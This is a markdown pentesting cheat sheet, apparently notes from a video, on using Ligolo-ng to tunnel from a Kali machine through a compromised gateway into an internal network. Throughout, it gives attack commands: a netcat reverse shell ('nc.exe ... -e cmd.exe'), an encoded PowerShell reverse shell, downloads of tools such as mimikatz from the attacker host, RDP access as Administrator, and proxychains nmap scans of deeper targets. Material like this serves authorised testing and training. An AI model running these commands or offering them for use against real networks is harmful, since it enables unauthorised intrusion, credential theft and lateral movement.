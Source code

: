 # Ligolo-ng setup

Source: https://looptube.io/?videoId=DM1B8S80EvQ  

## Prerequisite

### Framework

| WAN | DMZ | Inside LAN |
|-----|-----|------------|
| Kali | Gateway | servers, workstations | 
| IpAttacker > | < eth0: IpDmzOut - eth1: IpDmzIn > | < IpInternalNetwork (DC, WS1, WS2) |

### Binary releases

Two downloads:
- an agent: on the gateway
- a proxy: on Kali

## Setup

### Config on Kali

```
sudo ip tuntap add user kaliuser mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
```

### Config on the gateway

```
cmd> agent.exe -connect $IpKali:$PortKali -ignore-cert
```

### Tunneling on Ligolo-ng

```
>> help
>> session
>>>> ifconfig
```

In a shell:
```
sudo ip route add $IpInternal/24 dev ligolo
ip route list # check
```

Back in Ligolo:
```
>>>> start
```

Check with NetExec:
```
NetExec smb $IpInternal/24
```

### Pivoting in Ligolo-ng

In Ligolo
```
>>>> listener_list
>>>> listener_add --addr 0.0.0.0:$Port1 --to 127.0.0.1:$Port2
>>>> listener_add --addr 0.0.0.0:$Port3 --to 127.0.0.1:$Port4
>>>> listener_list
```

On a WS or the DC:
```
PS> nc.exe $InternalGatewayIpOnEth1 $Port1 -e cmd.exe
PS> iwr -uri http://$InternalGatewayIpOnEth1:$Port3/somepentestingtool.exe -outfile tool.exe
```

On Kali:
```
nc -lnpu $Port2
python3 -m http.server $Port4
```

Examples:
- `0.0.0.0:4446` -> `127.0.0.1:4446` then `powershell -e base64enc($InternalIpForAgent01 $4446)`
- `0.0.0.0:8081` -> `127.0.0.1:8081` then `iwr -uri http://$InternalIpForAgent01:8181/mimikatz.exe -outfile mimi.exe` (and `python3 -m http.server 8081` in `/var/www/html`)
- `0.0.0.0:3389` -> `$IpForTarget02:3389` then `xfreerdp /u:Administrator /p:adminpass /v:$ExternalIpForAgent01`

Reverse dynamic tunelling:
- in ligolo: `listener_add --addr 0.0.0.0:22 --to 127.0.0.1:22`
- on internal gateway02: `ssh -N -R 2222 kaliuser@$InternalIpForAgent01`
- in `/etc/proxychains.conf`: `socks5 127.0.0.1 2222`
- in Kali: `proxychains nmap -n -Pn -sT -vvv --top-ports=20 --open -oN nmap_tcp_deepinIP.txt $DeepInTargetIp03`


